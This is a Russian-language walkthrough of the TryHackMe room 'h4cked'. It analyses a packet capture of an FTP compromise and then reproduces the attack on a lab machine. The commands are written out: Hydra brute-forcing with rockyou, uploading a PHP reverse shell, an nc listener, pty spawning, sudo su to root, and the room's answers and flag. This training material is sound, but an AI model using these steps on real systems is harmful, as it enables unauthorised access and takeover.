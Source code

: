 

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [h4cked](https://tryhackme.com/r/room/h4cked) 

Всего 2 задания:
## Задание 1
### Ответьте на вопросы ниже
Похоже, нашу машину взломал анонимный злоумышленник. Однако нам повезло, что у нас есть файл .pcap от атаки. Можете 
ли вы определить, что произошло? Загрузите файл .pcap и используйте Wireshark, чтобы просмотреть его. 
```commandline
Ответ не нужен
```
Злоумышленник пытается войти в определенный сервис. Что это за сервис?
`FTP (File Transfer Protocol)` — сетевой протокол для передачи файлов между компьютерами через соединения Transmission 
Control Protocol/Internet Protocol (TCP/IP). В рамках пакета TCP/IP FTP считается протоколом прикладного уровня. 
```commandline
FTP
```
Есть очень популярный инструмент от Van Hauser, который можно использовать для взлома серии сервисов. Как называется 
этот инструмент?
[Hydra](https://github.com/vanhauser-thc/thc-hydra) — это параллельный взломщик входа в систему, поддерживающий 
множество протоколов для атаки. 
```commandline
Hydra
```
Злоумышленник пытается войти в систему с определенным именем пользователя. Какое имя пользователя?
```commandline
Jenny
```
Какой пароль у пользователя?
Если посмотреть на ответы на соответствующие запросы, то там есть ответ под названием «Вход выполнен успешно». Чтобы 
отфильтровать по определенному потоку, выберите пакет TCP, UDP, DCCP, TLS, HTTP, HTTP/2, QUIC или SIP в списке 
пакетов интересующего вас потока/соединения, а затем выберите пункт меню Анализ → Отслеживать → Поток TCP . 
Wireshark установит соответствующий фильтр отображения и отобразит диалоговое окно с разложенными данными из потока.   
```commandline
password123
```
Каков текущий рабочий каталог FTP после входа злоумышленника в систему?
Мы можем выполнить поиск по команде «pwd», чтобы определить рабочий каталог. Команда pwd (печать рабочего каталога) 
записывает в стандартный вывод полный путь к текущему каталогу (от корневого каталога). 
```commandline
/var/www/html
```
Атакующий загрузил бэкдор. Каково имя файла бэкдора?
Знание важных деталей, таких как имя файла, расширение файла или команда, ускоряет процесс анализа.
Мы видим, что на этом этапе злоумышленник использует бэкдор под названием «shell.php». Клиент выдает команду STOR 
после успешного установления соединения для передачи данных, когда он хочет загрузить копию локального файла на сервер. 
```commandline
shell.php
```
Бэкдор можно загрузить с определенного URL, так как он находится внутри загруженного файла. Каков полный URL?
```commandline
http://pentestmonkey.net/tools/php-reverse-shell
```
Какую команду злоумышленник выполнил вручную после получения обратного шелла?
Как следует из названия, команда whoami выводит имя пользователя эффективного идентификатора пользователя. Другими 
словами, она отображает имя текущего вошедшего в систему пользователя. 
```commandline
whoami
```
Каково имя хоста компьютера?
```commandline
wir3
```
Какую команду выполнил злоумышленник, чтобы создать новую оболочку TTY?
```commandline
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Какая команда была выполнена для получения root-оболочки?
```commandline
sudo su
```
Злоумышленник скачал что-то с GitHub. Как называется проект GitHub?
[Reptile](https://github.com/f0rb1dd3n/Reptile) — это руткит режима ядра Linux с возможностью обхода обнаружения, 
сохранения и наличия бэкдора. 

```commandline
Reptile
```
Проект может быть использован для установки скрытого бэкдора в системе. Его может быть очень трудно обнаружить. Как 
называется этот тип бэкдора?
Вредоносное ПО `Rootkit` представляет собой набор программного обеспечения, предназначенного для предоставления 
злоумышленникам контроля над компьютерной сетью или приложением. 
```commandline
Rootkit
```

## Задание 2
### Ответьте на вопросы ниже
Разверните машину.

Атакующий изменил пароль пользователя! Можете ли вы повторить действия атакующего и прочитать flag.txt? Флаг 
находится в каталоге /root/Reptile. Помните, вы всегда можете вернуться к файлу .pcap, если это необходимо. Удачи! 

Для подключения к машинам в TryHackMe через VPN вам понадобится файл конфигурации [OpenVPN](https://tryhackme.com/access?o=vpn).

```commandline
openvpn file.ovpn
nmap -A -T4 -Pn -p- 10.10.177.32
```
```commandline
Ответ не нужен
```
Запустите Hydra (или любой аналогичный инструмент) на FTP-сервисе. Злоумышленник мог выбрать несложный пароль. Вам 
может повезти, если вы используете общий список слов. 
```commandline
hydra -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.177.32 ftp
ftp 10.10.177.32
get shell.php
```
```commandline
Ответ не нужен
```
Измените необходимые значения внутри веб-оболочки и загрузите ее на веб-сервер.
```commandline
leafpad shell.php
put shell.php
```
```commandline
Ответ не нужен
```
Создайте прослушиватель на указанном порту на машине атакующего. Выполните веб-оболочку, посетив файл .php на 
целевом веб-сервере. 
```commandline
nc -lvnp 4444
whoami
python3 -c 'import pty; pty.spawn("/bin/bash")'
su jenny
password123
```
```commandline
Ответ не нужен
```
Станьте пользователем root!
```commandline
sudo -l
sudo su
whoami
```
```commandline
Ответ не нужен
```
Прочитайте файл flag.txt в каталоге Reptile.
```commandline
cd /root/Reptile
ls -al
cat flag.txt
```
```commandline
ebcefd66ca4b559d17b440b6e67fd0fd
```



[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)